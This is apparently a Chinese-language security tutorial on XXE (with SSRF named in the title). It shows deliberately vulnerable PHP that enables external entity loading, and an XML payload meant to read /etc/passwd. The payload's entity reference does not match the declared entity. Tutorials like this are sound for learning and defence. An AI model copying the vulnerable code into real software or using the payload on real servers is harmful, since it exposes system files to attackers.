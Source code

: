 ```yaml
---
title: XXE与SSRF
tags:
  - XXE
  - SSRF
  - 漏洞原理
  - PHP
categories:
  - - 安全技术
  - - 漏洞原理
description: 本文介绍了XXE以及SSRF漏洞的基本原理
abbrlink: 4e6e7714
date: 2025-04-10 20:56:11
---
```



# XXE and SSRF

# XXE

## XXE - 外部实体注入漏洞

利用了网站在解析xml文件的时候，可以引入外部实体的特性，而外部实体可以使用各种协议如，php://filter ftp http file，等方式获得本地的，网络的资源，从而使我们上传的恶意dtd文件中的payload得以执行。

### 漏洞代码

```php
<?php    libxml_disable_entity_loader(false);    $xmlfile=file_get_contents("php://input");    $dom = new DOMDocument();    $dom -> loadXML($xmlfile,LIBXML_BIGLINES | LIBXML_NOWARNING | LIBXML_NOENT | LIBXML_DTDLOAD);    $creds = simplexml_import_dom($dom);    echo $creds  #注释这一行的话就是没有回显的xxe?>
```

### 有回显的XXE

**判断方式**

修改网页的请求方式为post，post的数据修改为任意xml标签，如：ggggg,如果ggggg成功再页面中显示出来，则存在有回显的XXE漏洞。

**利用**

此时只需直接构造如下payload上传即可

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY test SYSTEM "file:///etc/password">]><data>&data;</data>//如此便可获取linux系统的密码文件中的内容
```

### 无回显的XXE
